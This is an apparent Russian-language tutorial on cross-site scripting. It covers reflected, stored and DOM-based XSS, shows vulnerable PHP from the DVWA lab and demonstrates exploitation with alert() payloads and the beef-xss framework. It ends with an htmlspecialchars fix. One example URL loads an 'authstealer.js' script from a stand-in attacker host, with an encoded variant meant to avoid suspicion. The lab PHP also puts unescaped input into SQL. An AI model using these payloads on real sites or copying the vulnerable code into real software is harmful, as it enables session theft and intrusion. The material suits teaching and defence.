










# **XSS уязвимость**

## **Описание уязвимости**
XSS (англ. Cross-Site Scripting — «межсайтовый скриптинг») — тип атаки на веб-системы, заключающийся во внедрении в выдаваемую веб-системой страницу вредоносного кода (который будет выполнен на компьютере пользователя при открытии им этой страницы) и взаимодействии этого кода с веб-сервером злоумышленника. Является разновидностью атаки «Внедрение кода».

Специфика подобных атак заключается в том, что вредоносный код может использовать авторизацию пользователя в веб-системе для получения к ней расширенного доступа или для получения авторизационных данных пользователя. Вредоносный код может быть вставлен в страницу как через уязвимость в веб-сервере, так и через уязвимость на компьютере пользователя.
XSS находится на третьем месте в рейтинге ключевых рисков Web-приложений, согласно OWASP 2021.

## **Теория**
Не существует единой стандартизированной классификации недостатков межсайтового скриптинга, но большинство экспертов различают по крайней мере две основные разновидности недостатков XSS: непостоянные(reflected) и постоянные(stored). 
### **Reflected XSS**
Непостоянная (или отраженная) уязвимость межсайтового скриптинга на сегодняшний день является самым основным типом веб-уязвимости.Эти дыры обнаруживаются, когда данные, предоставленные веб-клиентом, чаще всего в параметрах HTTP-запроса (например, отправка HTML-формы), немедленно используются серверные скрипты для анализа и отображения страницы результатов.

Отраженная атака обычно отправляется по электронной почте или на нейтральный веб-сайт. Приманка - это невинно выглядящий URL-адрес, указывающий на надежный сайт, но содержащий вектор XSS. Если доверенный сайт уязвим для vector, нажатие на ссылку может привести к тому, что браузер жертвы запустит внедренный скрипт.
#### Пример XSS
```
http://vulnerable-website.com/search?q=<script>alert('xss');</script>
```
#### Пример созданной URL-ссылки для хищения информации
```HTML
http://vulnerable-website.com/search?q=puppies<script>src="http://hackersite.com/authstealer.js"</script>
<!--(Пример закодированной ссылки для отведения подозрений-->
http://vulnerable-website.com/search?q=puppies%3Cscript%20src%3D%22http%3A%2F%2Fhackersite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E
```
### **Stored XSS**
Постоянная (или хранимая) уязвимость XSS является более разрушительным вариантом ошибки межсайтового скриптинга: она возникает, когда данные, предоставленные злоумышленником, сохраняются сервером, а затем постоянно отображаются на "обычных" страницах, возвращаемых другим пользователям в ходе обычного просмотра, без надлежащего экранирования HTML. Классическим примером этого являются онлайн-доски объявлений, где пользователям разрешено размещать сообщения в формате HTML для чтения другими пользователями.

Постоянные XSS уязвимости могут быть более значительными, чем другие типы, потому что вредоносный скрипт злоумышленника отображается автоматически, без необходимости индивидуально нацеливать жертвы или заманивать их на сторонний веб-сайт. В частности, в случае сайтов социальных сетей, код будет дополнительно разработан для самораспространения между учетными записями, создавая тип клиентского червя.

Методы внедрения могут сильно различаться; в некоторых случаях злоумышленнику может даже не понадобиться напрямую взаимодействовать с самой веб-функциональностью, чтобы использовать такую дыру. Любые данные, полученные веб-приложением (по электронной почте, системным журналам, мгновенным сообщениям и т. Д.), Которые могут контролироваться злоумышленником, могут стать вектором внедрения.

#### Пример атаки - Происходит авторизация на сайте,где злоумышленник заранее знает,что есть функция написания комментариев и производит атаку путем XSS уязвимости.
```HTML
<!--Злоумышленник вставляет в свой комментарий JS скрипт-->
"Очень люблю щенков. Вы только взгляните на них!

```

Уязвимости на стороне сервера и на основе DOM

Пример ошибки XSS на основе DOM
До устранения ошибки страницы ошибок Bugzilla были открыты для XSS-атак на основе DOM, в которые можно было вводить произвольный HTML и скрипты с использованием принудительных сообщений об ошибках.[16]

Уязвимости XSS изначально были обнаружены в приложениях, которые выполняли всю обработку данных на стороне сервера. Пользовательский ввод (включая вектор XSS) будет отправлен на сервер, а затем отправлен обратно пользователю в виде веб-страницы. Потребность в улучшении пользовательского интерфейса привела к популярности приложений, в которых большая часть логики представления (возможно, написанной на JavaScript) работала на стороне клиента, который извлекал данные по требованию с сервера с помощью AJAX.

Поскольку код JavaScript также обрабатывал пользовательский ввод и отображал его в содержимом веб-страницы, начал появляться новый подкласс отраженных XSS-атак, который получил название межсайтовый скриптинг на основе DOM. При атаке XSS на основе DOM вредоносные данные не затрагивают веб-сервер. Скорее, это отражается в коде JavaScript, полностью на стороне клиента.[17]

Примером уязвимости XSS на основе DOM является ошибка, обнаруженная в 2011 году в ряде плагинов jQuery.[18] Стратегии предотвращения XSS-атак на основе DOM включают в себя меры, очень похожие на традиционные стратегии предотвращения XSS, но реализованные в коде JavaScript и содержащиеся на веб-страницах (т. Е. Проверка ввода и экранирование).[19] Некоторые фреймворки JavaScript имеют встроенные средства противодействия этому и другим типам атак — например, AngularJS.[20]

## Уязвимое приложение 
## Reflected XSS

Рассмотрим пример уязвимого к Reflected XSS веб приложения.


*Источник: [DVWA](https://dvwa.co.uk/)*

Здесь результат полученного в GET запросе параметра напрямую подставляется в конструкцию на PHP, осуществляющую отрисовку "User Feedback".
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Feedback for end user
    echo '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}

?> 
```
## Stored XSS
Рассмотрим пример уязвимого к Stored XSS Web-приложения


*Источник: [DVWA](https://dvwa.co.uk/)*

```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );
    ...
    // Update database
    $query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
}

?> 
```

Здесь мы видим, что введённый пользователем комментарий попадает в базу сайта без должной фильтрации.
## Демонстрация уязвимости
## Reflected XSS
Приведём простой пример эксплуатации этой XSS уязвимости:


*Источник: [DVWA](https://dvwa.co.uk/)*

```html
<form name="XSS" action="#" method="GET">
			<p>
				What's your name?
				<input type="text" name="name">
				<input type="submit" value="Submit">
			</p>

</form>
<pre>
    Hello 
    <script>
        alert('1');
    </script>
</pre>
```
Таким образом, манипулируя параметром GET запроса (можно было это сделать и через URL страницы), мы внедрили JS-скрипт на страницу жертвы.



## Stored XSS
Приведём пример эксплуатации такого типа XSS:


```html
<div id="guestbook_comments">Name: test<br />Message: This is a test comment.<br /></div>
<div id="guestbook_comments">Name: aaa<br />Message: test<br /></div>
<div id="guestbook_comments">Name: bbb<br />Message: <script>alert('1');</script><br /></div>
```
Таким образом, внедрив в текст комментария HTML блок `<script>`, мы внедрили JS-скрипт на веб-страницу, который будет исполнен в браузере каждого посетителя этой страницы.


## Автоматизация атаки
Для работы с XSS уязвимостью существует множество автоматизированных инструментов эксплуатации, среди которых следует отметить фреймворк [beef-xss](https://github.com/beefproject/beef) 

Для использования этого инструмента, нужно заставить жертву исполнить JS-скрипт (с помощью XSS), который подтянет браузер жертвы в beef-xss.

Запустив beef-xss, мы увидим какой JS-скрипт нужно внедрить на страницу жертвы:



Помещаем его в XSS атаку:




После чего, браузер жертвы получает с хоста атакующего hook.js и, исполняя его, попадает под контроль beef-xss:





## Рекомендации

XSS уязвимость возникает потому, что не производится фильтрация приходящих со стороны клиента данных. Исправить это можно, используя специальные функции, заменяющие опасные конструкции в пользовательском вводе на HTML-мнемоники.

Пример для PHP: test
```php
<?php

$text = "<script>alert('1')</script>"; // эту строку мы получили от пользователя
$safe_str = htmlspecialchars($text); // отфильтрованная, безопасная строка

// Получившеяся строка: &lt;script&gt;alert(&apos;1&apos;)&lt;/script&gt;
?>
```

## Ссылки

